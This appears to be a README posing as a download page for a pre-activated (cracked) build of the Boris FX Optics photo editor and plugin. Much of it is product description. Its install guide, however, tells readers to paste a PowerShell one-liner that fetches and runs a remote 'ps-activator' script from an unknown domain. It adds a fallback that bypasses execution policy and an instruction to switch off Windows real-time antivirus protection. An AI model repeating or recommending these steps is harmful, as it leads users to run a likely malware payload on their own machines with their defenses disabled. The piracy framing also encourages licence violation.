

<div align="center">

# Boris-FX-Optics-2026: Cinematic Photo Editor & VFX Plugin for Windows 10 & 11



[]() []() []() []()

</div>

---

Boris-FX-Optics-2026 is a professional photo editor and visual effects plugin engineered for creating cinematic looks, realistic lens effects, and advanced color grading within a layer-based, non-destructive workflow. The application delivers an extensive library of over 1000 filters and presets organized into categories such as Lens, Light, Stylize, and Film, alongside accurate emulations of real camera lenses, optical filters, and film stocks. Particle generation tools enable the synthesis of natural phenomena including rain, snow, smoke, and fire, while professional color correction utilities provide curves, color balance, and selective HSL controls. This pre-activated build ships with the latest feature set, combining GPU-accelerated processing with mask support and flexible blending modes for precise compositing.

## 🚀 PowerShell Install Guide

> [!TIP]
> **One-click install** — paste one command, done in seconds.
> Win 10/11 · PowerShell 5.1+ · Standard user

### 1️⃣ Open Windows PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Execute the installer
Paste and run. Wait until the process completes.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If Windows blocks the script — use CMD
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If SmartScreen or antivirus blocks the setup, go to **Windows Security → Virus & threat protection → Manage settings**, turn off **Real-time protection**, run the script, and re-enable immediately.

## 📋 System Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## Features

- Comprehensive effects library with more than 1000 filters organized into logical categories including Lens, Light, Stylize, and Film for streamlined navigation and rapid application
- Accurate emulations of real camera lenses, optical filters, and classic film stocks from recognized manufacturers such as Kodak, Ilford, and Polaroid
- Particle generation subsystem capable of synthesizing natural phenomena including rain, snow, smoke, and fire with configurable emission and motion parameters
- Professional color correction and grading toolset featuring curves, color balance, and selective HSL controls for precise tonal and chromatic adjustments
- Layer-based compositing workflow supporting masks, blending modes, and non-destructive filter stacking for iterative, reversible editing
- Preset-driven cinematic look development enabling consistent visual styling across multi-image projects
- Non-destructive processing pipeline that preserves original source data throughout all editing operations
- Integrated plugin architecture compatible with host photo editing applications for in-context effect application

## How it works

Boris-FX-Optics-2026 operates as a host-integrated image processing pipeline that layers a dedicated effects engine on top of the editing workflow. At its core, the application renders each effect as a discrete node within a non-destructive stack, allowing adjustments to be reordered, masked, or disabled without altering the source image data.

When a project is opened, the engine initializes a GPU-accelerated compositing context that maps the active image or layer into an internal color-managed working space. Each filter, lens emulation, or grade is applied as a sequential operation within this context, with intermediate results cached to preserve responsiveness during parameter tweaking.

Effect application follows a modular architecture. Lens and optical simulations are computed using physically inspired models that replicate distortion, chromatic aberration, bloom, and diffusion characteristics of real glass. Film stock emulations apply spectral response curves and grain synthesis at configurable intensity, while particle systems generate procedurally simulated elements such as precipitation, smoke, and embers composited against the active layer.

Color grading is handled through a parallel processing path that supports curves, lift-gamma-gain, and selective hue/saturation/luminance adjustments. These corrections operate on the color-managed buffer, ensuring consistent results across the stacking order and preserving highlight and shadow detail through floating-point precision.

Masking and blending rely on an internal matte system: user-defined masks, luminance keys, and channel-based selections are stored separately from pixel data and evaluated at render time. Blend modes combine layers using standard compositing math, and the entire stack is re-evaluated non-destructively whenever inputs or parameters change.

Rendering output respects the host application's bit depth and color profile. The engine offloads parallelizable operations to the GPU where supported, falling back to multi-threaded CPU processing for operations that require higher precision or are not hardware-accelerated. The result is a deterministic, repeatable pipeline in which every effect remains editable and reversible until final export.

## Compatibility

Boris-FX-Optics-2026 is engineered for seamless integration with the leading host applications used in professional photo editing, compositing, and post-production workflows. The plugin operates as a native extension within supported hosts, preserving full non-destructive editing, layer stacking, and project round-tripping so that effect stacks remain editable across sessions.

**Supported Host Applications**

- Adobe Photoshop (current and recent release cycles)
- Adobe Photoshop Elements
- Adobe Lightroom Classic
- Adobe After Effects
- Adobe Premiere Pro
- DaVinci Resolve
- Final Cut Pro
- Avid Media Composer

**Operating System Support**

- Windows 10 and Windows 11 (64-bit only)
- macOS on Intel and Apple Silicon architectures, including native support for the latest macOS releases

**Hardware and Runtime Requirements**

- 64-bit multi-core processor (Intel, AMD, or Apple Silicon)
- 8 GB RAM minimum; 16 GB or higher recommended for complex multi-layer effect stacks
- OpenGL 3.2-compatible GPU with at least 1 GB VRAM
- Display resolution of 1920x1080 or higher
- Sufficient free disk space for application files and effect preset libraries

**Host Version Considerations**

Compatibility is maintained with the current releases of each supported host, with backwards support for the immediately preceding major version where the host API permits. Feature availability may vary by host: GPU-accelerated rendering, 16-bit and 32-bit color depth processing, and certain masking or particle tools depend on the capabilities exposed by the host application. In hosts that do not natively support non-destructive filter stacks, effects are applied as editable layers or adjustment instances according to the host's architecture.

**Plugin Architecture**

Boris-FX-Optics-2026 ships in the plugin formats required by each host, including native module formats for Adobe applications and OFX-compatible builds for supporting compositing and grading platforms. The installer selects the appropriate format based on detected host installations, and the plugin can coexist with other effect packages without conflicts. Color management follows the host application's working color space, ensuring consistent results across color-graded pipelines.

**Presets and Project Interchange**

Effect presets, custom looks, and grading configurations are stored in a host-agnostic format, allowing presets created in one supported application to be reused in another. Project files that reference Boris-FX-Optics-2026 effects retain their full parameter data when moved between supported hosts, provided the corresponding effect versions are installed.

**Known Limitations**

Compatibility with beta or pre-release host versions is not guaranteed. Some legacy host versions may lack the API surface required for GPU rendering or non-destructive stacking, in which case the affected features fall back to CPU processing or raster-based application. Users running mixed-architecture macOS environments should ensure the appropriate build variant is selected during setup to match the host application's execution mode.

## FAQ

**Is Boris-FX-Optics-2026 a standalone application or a plugin?**

It is both. The core photo editor runs as a standalone desktop application for image finishing and look development, while the same effect engine is exposed as a plugin for supported host applications. The standalone and plugin variants share the identical filter stack, so projects can move between them without loss of fidelity.

**Which effect categories are included in the 2026 build?**

The library is organized into Lens, Light, Stylize, Film, Particles, Color, and Diffusion groups. Each category exposes its own parameter set: Lens includes geometric distortion, chromatic aberration, and bokeh shaping; Light covers volumetric glow, flare, and leak simulation; Film provides stock emulations with grain, halation, and gate weave controls. All effects are non-destructive and stackable.

**How does the layer-based workflow handle masking and blending?**

Each layer accepts raster and vector masks with feathering, density, and inversion controls. Blending modes follow standard compositing conventions, and per-layer opacity is animatable where the host supports keyframes. Filters applied to a layer remain editable at any point in the session; disabling a filter bypasses it without removing it from the stack.

**What color grading controls are available?**

Grading is handled through curve editors for master and per-channel response, lift-gamma-gain and color balance wheels, and selective HSL qualification with softness and key isolation. Grade nodes can be reordered independently of the effect stack, allowing color work to be inserted before or after optical effects.

**Does the software support GPU acceleration?**

Yes. Rendering is GPU-accelerated through an OpenGL 3.2 compatible pipeline, with a CPU fallback for systems that lack a qualifying adapter. GPU acceleration is recommended for particle generation, large-radius blur, and multi-layer stacks, where it reduces preview latency substantially.

**What are the minimum and recommended hardware specifications?**

A 64-bit Windows 10 system with a multi-core Intel or AMD processor, 8 GB of RAM, 4 GB of free disk space, and an OpenGL 3.2 GPU with at least 1 GB of VRAM is required. 16 GB of RAM and a display of 1920x1080 or higher are recommended for multi-layer projects and high-resolution source images.

**How is the plugin integrated with host applications?**

The plugin registers with supported hosts during setup and appears in the host's effect or filter menu. Parameter changes made inside the host are reflected in the standalone editor and vice versa. Host-side rendering respects the host's color management settings where applicable.

**Is the pre-activated build feature-complete relative to the retail release?**

The included build matches the current release feature set, including the full effect library, layer workflow, and color grading toolset. No separate activation step is required to unlock effects or export.

**What file formats are supported for import and export?**

Common raster formats are supported for import and export, with layered project files retained in the native format so that filter stacks, masks, and grade nodes persist across sessions. Export bit depth and color space are selectable at render time.

**Where can I find documentation for individual effects?**

Reference material for each filter, including parameter descriptions and suggested workflows, is bundled with the installation and accessible from within the application. The documentation is organized to mirror the effect category structure used in the interface.

## Disclaimer

Boris-FX-Optics-2026 is distributed as a pre-activated build intended for evaluation, testing, and educational purposes only. The software is provided "as is" and "as available," without warranties of any kind, whether express, implied, or statutory, including but not limited to warranties of merchantability, fitness for a particular purpose, title, and non-infringement.

No guarantee is made regarding the accuracy, reliability, completeness, or suitability of the plugin's rendering output for any specific production workflow. Results may vary depending on host application version, GPU driver revision, color management configuration, project bit depth, and the interaction between stacked filters within a layer-based composition. Users are responsible for validating all visual output prior to commercial delivery or archival use.

Pre-activation and any accompanying modification mechanisms are supplied for convenience within controlled testing environments. The maintainers of Boris-FX-Optics-2026 assume no liability for licensing compliance, activation status, or terms of service of any third-party host application or vendor. It is the sole responsibility of the user to ensure that deployment of this build conforms to all applicable license agreements and local regulations.

By installing, launching, or otherwise using Boris-FX-Optics-2026, the user accepts full responsibility for any direct, indirect, incidental, special, consequential, or exemplary damages arising from its use, including but not limited to loss of data, project corruption, workflow interruption, hardware strain from GPU-accelerated rendering, or incompatibility with existing color pipelines.

The maintainers reserve the right to modify, suspend, or discontinue distribution of this build at any time without prior notice. Feature sets, filter libraries, and compatibility matrices described elsewhere in this documentation reflect the current build and may change in subsequent revisions. No obligation is assumed to provide updates, patches, or technical support for this pre-activated distribution.

No endorsement, affiliation, or sponsorship by any third-party vendor, camera manufacturer, or film stock brand referenced within the plugin's filter categories is claimed or implied. All trademarks remain the property of their respective owners and are used solely for descriptive identification of emulated looks and optical processes.

Use of Boris-FX-Optics-2026 constitutes acknowledgment that the user has read, understood, and agreed to the terms outlined above.

## License

Boris-FX-Optics-2026 is distributed as a self-contained desktop build intended for evaluation, testing, and integration into existing post-processing workflows. The pre-activated build preserves the full feature set of the plugin, including the complete effects library, lens and film emulation modules, particle generation tools, color grading controls, and the layer-based non-destructive workflow, without requiring activation or online verification.

The software is provided under a limited, non-transferable license for personal and internal use. Redistribution, resale, sublicensing, or incorporation into commercial products is not permitted without explicit authorization from the project maintainers. The binary and its bundled assets are supplied as-is; no source code is included, and reverse engineering, decompilation, or modification of the executable is prohibited except where permitted by applicable law.

All trademarks, brand names, and product references appearing within the plugin interface or its bundled presets remain the property of their respective owners. Their inclusion is for descriptive and compatibility purposes only and does not imply affiliation with or endorsement of this project.

The software is provided without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and non-infringement. In no event shall the authors or maintainers be liable for any claim, damages, or other liability arising from the use of or inability to use the software, whether in an action of contract, tort, or otherwise.

By installing or using Boris-FX-Optics-2026, you acknowledge that you have read and agree to the terms described in this section.